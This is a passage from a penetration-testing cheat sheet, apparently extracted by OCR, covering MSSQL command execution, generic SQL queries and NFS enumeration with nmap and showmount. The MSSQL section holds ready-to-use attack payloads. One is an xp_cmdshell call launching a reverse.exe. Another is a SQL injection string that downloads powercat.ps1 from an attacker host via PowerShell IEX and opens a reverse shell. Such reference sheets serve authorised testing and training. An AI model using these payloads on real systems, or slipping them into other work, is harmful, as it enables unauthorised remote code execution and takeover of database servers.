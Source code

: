     EXEC xp_cmdshell &#39;c:\\Users\\Public\\reverse.exe&#39;;
    GO
    

    -- SQL Injection example to execute system commands
    test&#39;; EXEC master.dbo.xp_cmdshell &#39;powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString(&#39;&#39;http://<attacker_ip>:<port>/powercat.ps1&#39;&#39;);powercat -c <attacker_ip> -p <port> -e powershell"&#39;;--
    

**Database Usage**

    -- List all the databases
    SELECT name FROM master.dbo.sysdatabases
                    
    -- List all tables in the current database
    SELECT * FROM information_schema.tables;
    
    -- View contents of a specific table
    SELECT * FROM <table_name>;
    
    -- Search for specific data in a table
    SELECT * FROM <table_name> WHERE <column_name> LIKE &#39;%<search_term>%&#39;;
    
    -- Insert a new record into a table
    INSERT INTO <table_name> (<column1>, <column2>) VALUES (&#39;<value1>&#39;, &#39;<value2>&#39;);
    
    -- Update an existing record in a table
    UPDATE <table_name> SET <column_name> = &#39;<new_value>&#39; WHERE <condition>;
    
    -- Delete a record from a table
    DELETE FROM <table_name> WHERE <condition>;
    

#### 1.4.16 2049: NFS

**Nmap Scripting Scan**

    nmap -p 2049 -sV --script "nfs-showmount,nfs-ls,nfs-statfs,nfs-secure,nfs-client,disk,nfs-*" <target_ip>
    

**Enumeration**

    # Show all NFS shares on the target
    showmount -e <target_ip>
    
    # Show mount information for the target
    showmount <target_ip>
    

**Mounting**

    # Create a local directory to mount the NFS share
    mkdir <mount_point>
    